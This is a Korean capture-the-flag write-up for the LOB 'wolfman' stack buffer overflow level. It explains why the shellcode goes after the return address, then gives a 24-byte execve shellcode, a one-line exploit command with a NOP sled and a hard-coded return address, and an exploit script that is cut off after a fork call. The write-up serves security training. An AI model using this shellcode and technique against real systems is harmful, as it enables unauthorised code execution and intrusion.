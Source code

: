 

------



### 0x01. Analysis

orc문제와 똑같아 보이지만 마지막에 buffer hunter라고 해서 buffer배열의 40byte를 0으로 초기화하는 코드가 추가되었다.

앞서 orc문제에서 buffer배열에 Shellcode를 넣는 방법과, RET주소 뒤에 Stack영역에 Shellcode를 넣는 방법으로 문제를 풀어보라고 했었다.

이 문제는 **buffer배열을 초기화 하기 때문에 RET주소 뒤에 Stack영역에 Shellcode를 넣어서 풀면 될것 같다.**



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/05.wolfman/01.png" width="600px">{:.rounded.shadow}

> argv[1] 주소를 이용해서 문제를 푸는 방법도 있다. buffer배열이 0으로 초기화 되지만, argv[1]의 값을 저장하고 있는 스택 공간은 초기화되지 않기 때문...

------

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

> orc문제 풀이와 동일하기 때문에 상세 내용은 생략한다.

쉘코드가 넣을 주소를 알기 위해 core를 떨구자.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/05.wolfman/02.png" width="800px">{:.rounded.shadow}

"S"부분이 쉘코드 24byte가 들어갈 자리이다.



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/05.wolfman/03.png" width="600px">{:.rounded.shadow}

0xbffffa64부분 언저리주소를 RET에 넣으면 NOP슬라이드를 타고 Shellcode가 실행된다.



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/05.wolfman/04.png" width="800px">{:.rounded.shadow}

```shell
[orc@localhost orc]$ ./wolfman `python -c 'print "A"*44+"\x64\xfa\xff\xbf"+"\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```

-----

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/orc/wolfman"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
shellcode_addr = 0xbffffa64

payload = "\x90"*44
payload = append(p32(shellcode_addr))
payload = append("\x90"*50)
payload = append(shellcode)

pid = os.fork()
```